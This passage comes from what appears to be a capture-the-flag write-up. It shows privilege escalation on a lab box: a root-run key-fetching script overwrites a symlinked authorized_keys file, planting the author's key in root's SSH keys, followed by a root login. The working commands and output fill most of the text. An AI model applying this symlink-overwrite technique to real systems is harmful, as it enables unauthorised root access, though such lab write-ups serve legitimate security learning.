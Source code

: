 We can do a little experiment to see what's goin on here. Since we now have access as the `ETSCTF` user, we can delete the file and re-run the `/usr/local/sbin/fetch_keys` script.

```
ETSCTF@etceterad:~/.ssh$ rm authorized_keys 
rm: remove write-protected regular file 'authorized_keys'? y
ETSCTF@etceterad:~/.ssh$ ls -la
total 20
drwxr-xr-x 1 ETSCTF ETSCTF 4096 Oct 11 12:00 .
drwxr-xr-x 1 ETSCTF ETSCTF 4096 Mar 26  2024 ..
-r-------- 1 root   root    565 Oct 11 12:00 authorized_keys
```

We observe that a new file is written to disk as the root user. After thinking and experimenting about this for some time we realize that any file with the name `authorized_keys` in the `/home/ETSCTF/.ssh/` is overwritten by the root user when `/usr/local/sbin/fetch_keys` is run.

We can leverage this by using a symlink which points to the `authorized_keys` file under the `/root/.ssh/` directory to overwrite the root user's ssh public keys. After doing that we can ssh into the machine using our private key as the root user.
```
ETSCTF@etceterad:~/.ssh$ rm authorized_keys 
rm: remove write-protected regular file 'authorized_keys'? y
ETSCTF@etceterad:~/.ssh$ ln -s /root/.ssh/authorized_keys authorized_keys
ETSCTF@etceterad:~/.ssh$ ls -la
total 16
drwxr-xr-x 1 ETSCTF ETSCTF 4096 Oct 11 12:06 .
drwxr-xr-x 1 ETSCTF ETSCTF 4096 Mar 26  2024 ..
lrwxrwxrwx 1 ETSCTF ETSCTF   26 Oct 11 12:06 authorized_keys -> /root/.ssh/authorized_keys
```

After this we run the `/usr/local/sbin/fetch_keys` script and `/root/.ssh/authorized_keys` gets overwritten with our public ssh key.

We can now login to the box as the root user.
Voila :smiley: :sparkles:.
```
mcsam@0x32:~/$ ssh -i id_rsa root@10.0.160.122
Linux etceterad.echocity-f.com 4.19.0-25-amd64 #1 SMP Debian 4.19.289-2 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@etceterad:~# id
uid=0(root) gid=0(root) groups=0(root)
root@etceterad:~#
```